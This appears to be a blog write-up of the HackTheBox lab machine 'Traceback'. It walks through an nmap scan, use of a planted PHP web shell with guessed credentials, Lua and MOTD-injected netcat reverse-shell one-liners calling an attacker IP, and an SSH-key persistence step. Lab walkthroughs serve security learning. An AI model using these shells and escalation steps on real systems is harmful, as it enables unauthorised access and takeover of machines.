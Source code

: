 +++
title = "Traceback"
date = 2020-03-17
[taxonomies]
tags = ["hackthebox"]
+++

1.	```
	nmap -sC -sV -oA traceback 10.10.10.181
	```
	`nmap` scans show scans show ports 22 and 80 is open.
	```
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 21:42 EDT
	Failed to resolve "nmap".
	Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
	Service scan Timing: About 50.00% done; ETC: 21:42 (0:00:06 remaining)
	Nmap scan report for 10.10.10.181
	Host is up (0.032s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
	|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
	|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: Help us                                                         
	```

2.	Enumeration of port 80 shows a single page. I began running `gobuster` and `nikto` but no results.

	![htb-traceback-1.png](htb-traceback-1.png)
	
	In the source page, there is a line that mentions:
	```
	<!--Some of the best web shells that you might need ;)-->
	```
	
	Google shows up with a repository that contains many web shells.

	```
	https://github.com/TheBinitGhimire/Web-Shells
	```
	
	I tried the entire list of filenames and smevk.php worked.

	```
	http://traceback/smevk.php
	```

	![htb-traceback-2.png](htb-traceback-2.png)

	I basically guessed admin:admin and it worked.

	![htb-traceback-3.png](htb-traceback-3.png)

3.	After playing around with the web shell and understanding the capabilities, there was a file manager that can be utilized to upload a reverse shell script. I Googled for a PHP reverse shell and came upon the gold standard of PHP scripts:

	```
	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
	```
	
	Once it was uploaded, it was a matter of executing the script by navigating the URL:
	
	```
	http://traceback/rs.php
	```

4.	Now that I have a low privilege shell access, I began lurking around to see what I can find. I noticed there was a note.txt file in the `/home/webadmin/` directory.

	![htb-traceback-4.png](htb-traceback-4.png)
	
	I took a look at the `.bash_history` file to see if there were past commands that would assist with privilege escalation.

	![htb-traceback-5.png](htb-traceback-5.png)
	
	The `sudo` command is definitely not right so I looked into the current privileges I had with `webadmin` account.

	![htb-traceback-6.png](htb-traceback-6.png)
	
5.	Knowing what privileges I had, I knew what I had to do going forward. I Googled for a way to execute operating system commands in LUA language to create a reverse shell connection. I Googled for an LUA based reverse shell and combined with a bourne reverse shell one liner.

	```
	require('os');
	os.execute('sh -c rm /tmp/abc;mkfifo /tmp/abc;cat /tmp/abc|/bin/sh -i 2>&1|nc 10.10.14.45 4445 >/tmp/abc');
	```

	![htb-traceback-7.png](htb-traceback-7.png)

6.	Setup a netcat listener and execute the `sudo` command. User flag has been obtained.

	```
	sudo -u sysadmin /home/sysadmin/luvit privesc.lua
	```

	![htb-traceback-8.png](htb-traceback-8.png)

	![htb-traceback-9.png](htb-traceback-9.png)

### Privilege Escalation

1.	As a convenience for myself, I added my own SSH key to the `authorized_keys` file so I can easily SSH into the machine and have a proper shell.

	![htb-traceback-10.png](htb-traceback-10.png)

	```
	ssh -i ~/.ssh/id_rsa sysadmin@traceback
	```
	
2.	I ran the standard linux enumeration scripts, `Linpeas` and `PSPY64`. The `Linpeas` results showed a lot of interesting results but didn't notice anything too interesting until I ran `PSPY64`. `PSPY64` found a `cron` job that was running every 30 seconds or so and was related to MOTD. Once I noticed these processes, I figured it was related to some kind of MOTD abuse.

	![htb-traceback-11.png](htb-traceback-11.png)
	
	![htb-traceback-12.png](htb-traceback-12.png)
	
	![htb-traceback-13.png](htb-traceback-13.png)


3.	`Linpeas` show that `sysadmin` had access to modify `00-header` file which controls the MOTD when you log in via SSH. I decided to insert the reverse shell one liner that I did before. Next time when I logged into SSH, the machine should execute the MOTD file along with my command. Root flag has been obtained.

	```
	sh -c rm /tmp/abc;mkfifo /tmp/abc;cat /tmp/abc|/bin/sh -i 2>&1|nc 10.10.14.45 4446 >/tmp/abc');
	```

	![htb-traceback-14.png](htb-traceback-14.png)

	![htb-traceback-15.png](htb-traceback-15.png)